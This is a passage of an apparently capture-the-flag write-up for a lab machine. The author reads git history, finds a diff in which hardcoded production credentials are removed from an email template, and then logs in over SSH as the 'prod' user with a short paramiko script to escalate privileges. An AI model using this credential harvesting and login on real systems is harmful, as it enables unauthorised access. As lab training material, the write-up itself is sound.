      'commit 1e84a036b2f33c59e2390730699a488c65643d28\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 20:51:10 2023 -0500\n',
     '\n',
     '    feat: create api to editorial info\n',
     '    \n',
     '    * It (will) contains internal info about the editorial, this enable\n',
     '       faster access to information.\n',
     '\n',
     'commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 20:48:43 2023 -0500\n',
     '\n',
     '    feat: create editorial app\n',
     '    \n',
     '    * This contains the base of this project.\n',
     '    * Also we add a feature to enable to external authors send us their\n',
     '       books and validate a future post in our editorial.\n']


And checking through each of the change logs, we can see one where the default user credentials are updated from "prod" to "dev". 


```python
pprint(run_command('cd ~/apps && git diff HEAD~3'))
```
```javascript
    ['diff --git a/app_api/app.py b/app_api/app.py\n',
<snip>
     '-        \'template_mail_message\': "Welcome to the team! We are thrilled to '
     "have you on board and can't wait to see the incredible content you'll bring "
     'to the table.\\n\\nYour login credentials for our internal forum and authors '
     'site are:\\nUsername: prod\\nPassword: 080217_Producti0n_2023!@\\nPlease be '
     'sure to change your password as soon as possible for security '
     "purposes.\\n\\nDon't hesitate to reach out if you have any questions or "
     'ideas - we\'re always here to support you.\\n\\nBest regards, " + '
     'api_editorial_name + " Team."\n',
     '+        \'template_mail_message\': "Welcome to the team! We are thrilled to '
     "have you on board and can't wait to see the incredible content you'll bring "
     'to the table.\\n\\nYour login credentials for our internal forum and authors '
     'site are:\\nUsername: dev\\nPassword: dev080217_devAPI!@\\nPlease be sure to '
     "change your password as soon as possible for security purposes.\\n\\nDon't "
     "hesitate to reach out if you have any questions or ideas - we're always here "
     'to support you.\\n\\nBest regards, " + api_editorial_name + " Team."\n',
<snip>
```


### Prod Elevation

This is a rinse and repeat of the previous privesc, but with the production credentials now.


```python
prod_account = {'username': 'prod', 'password': '080217_Producti0n_2023!@'}
ssh_prod = paramiko.SSHClient()
ssh_prod.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh_prod.connect(target, username=prod_account['username'], password=prod_account['password'])

def run_prod_command(command):
    stdin, stdout, stderr = ssh_prod.exec_command(command)
    return stdout.readlines()
```
